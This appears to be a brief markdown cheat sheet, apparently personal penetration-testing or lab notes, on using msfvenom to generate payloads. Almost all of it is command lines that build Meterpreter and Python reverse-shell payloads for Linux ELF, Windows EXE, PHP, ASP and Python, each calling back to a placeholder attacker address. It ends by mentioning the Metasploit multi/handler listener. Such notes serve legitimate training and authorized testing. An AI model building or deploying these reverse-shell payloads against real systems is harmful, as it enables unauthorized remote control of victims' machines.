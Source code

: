 ## Intro

- generate payloads in specific formats
- list formats: msfvenom --list formats
## Payloads

### Reverse Shell

- Linux Executable and Linkable Format (elf)  
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf
```

- Windows  

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe
```
  
- PHP  

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php
```
  
- ASP  

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp```
```

- Python  

```
msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py
```
## Handler

-  used to handle callbacks generated in msfvenom paylaods
	- Ex: `exploit/multi/handler`

